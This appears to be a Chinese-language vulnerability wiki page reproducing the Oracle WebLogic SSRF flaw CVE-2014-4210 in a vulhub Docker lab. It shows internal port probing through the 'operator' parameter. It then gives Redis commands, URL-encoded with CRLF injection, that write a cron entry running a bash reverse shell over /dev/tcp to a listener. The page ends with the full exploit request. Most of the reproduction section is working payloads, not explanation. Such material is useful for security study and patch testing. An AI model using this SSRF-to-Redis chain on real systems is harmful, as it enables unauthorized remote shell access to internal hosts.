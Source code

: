 ```yaml
---
Title: Weblogic SSRF漏洞 CVE-2014-4210
---
```


# Weblogic SSRF漏洞 CVE-2014-4210

## 漏洞描述

Weblogic中存在一个SSRF漏洞，利用该漏洞可以发送任意HTTP请求，进而攻击内网中redis、fastcgi等脆弱组件，此漏洞可通过HTTP协议利用，未经身份验证的远程攻击者可利用此漏洞影响受影响组件的机密性

## 漏洞影响

<a-checkbox checked>Oracle WebLogic Server 10.0.2.0</a-checkbox></br>

<a-checkbox checked>Oracle WebLogic Server 10.3.6.0</a-checkbox></br>

## 环境搭建

```plain
git clone https://github.com/vulhub/vulhub.git
cd vulhub/weblogic/ssrd
docker-compose up -d
```

访问 `http://xxx.xxx.xxx.xxx:7001` 正常即可

![img](/assets/PeiQi-Wiki/img/1627122010908-dfbdc992-8a59-4638-b56d-404f0b538c7e.png)

## 漏洞复现

出现漏洞的 URL为 : `http://xxx.xxx.xxx.xxx:7001/uddiexplorer/SearchPublicRegistries.jsp`

![img](/assets/PeiQi-Wiki/img/1627122062901-5664349d-68fe-4128-a6d6-ec843fefd82d.png)



使用 payload 进行探测, 将探测的位置写在 operator参数中

<a-checkbox checked>注意需要知道内网 IP</a-checkbox></br>

```plain
/uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search&operator=http://xxx.xxx.xxx.xxx:7001
```

通过查看报错内容来进行判断

![img](/assets/PeiQi-Wiki/img/1627122076972-b0156bf5-41a6-4b62-9cc3-2d526f092083.png)

存在的报错内容如图，关键字为 `404` ,例如把 `operator` 参数改成 `http://xxx.xxx.xxx.xxx:7000` 这样不存在的则报错内容如下图

![img](/assets/PeiQi-Wiki/img/1627122081877-63d635ee-e032-4d56-a627-27606bdf334f.png)



通过这样的方法就可以探测内网的开放端口情况，例如内网中有一台主机 `IP：172.19.0.2` 开启`6379端口的redis服务`

![img](/assets/PeiQi-Wiki/img/1627122086475-d48ce9eb-a76c-4daa-94b1-fce15687b76e.png)



如果访问的非http协议，则会返回`did not have a valid SOAP content-type`，这样通过错误的不同，即可探测内网状态。

Weblogic的SSRF有一个比较大的特点，其虽然是一个“GET”请求，但是我们可以通过传入`%0a%0d`来注入换行符，而某些服务（如redis）是通过换行符来分隔每条命令，也就说我们可以通过该SSRF攻击内网中的redis服务器。

发送三条redis命令，将弹shell脚本写入`/etc/crontab` 中：

```shell
set 1 "\n\n\n\n* * * * * root bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/9999 0>&1\n\n\n\n"
config set dir /etc/
config set dbfilename crontab
save
```

接着再将请求进行 `url编码`

<a-checkbox checked>注意，换行符是“\r\n”，也就是“%0D%0A”</a-checkbox></br>

```shell
test%0D%0A%0D%0Aset%201%20%22%5Cn%5Cn%5Cn%5Cn*%20*%20*%20*%20*%20root%20bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2Fxxx.xxx.xxx.xxx%2F9999%200%3E%261%5Cn%5Cn%5Cn%5Cn%22%0D%0Aconfig%20set%20dir%20%2Fetc%2F%0D%0Aconfig%20set%20dbfilename%20crontab%0D%0Asave%0D%0A%0D%0Aaaa
```

发送payload

```shell
/uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search&operator=http://172.19.0.2:6379/test%0D%0A%0D%0Aset%201%20%22%5Cn%5Cn%5Cn%5Cn*%20*%20*%20*%20*%20root%20bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F172.19.0.3%2F9999%200%3E%261%5Cn%5Cn%5Cn%5Cn%22%0D%0Aconfig%20set%20dir%20%2Fetc%2F%0D%0Aconfig%20set%20dbfilename%20crontab%0D%0Asave%0D%0A%0D%0Aaaa
```

发送后监听 `172.19.0.3 9999端口`等待反弹shell

![img](/assets/PeiQi-Wiki/img/1627122093990-acdd4a50-b1ff-493f-8c86-dcd2e1445641.png)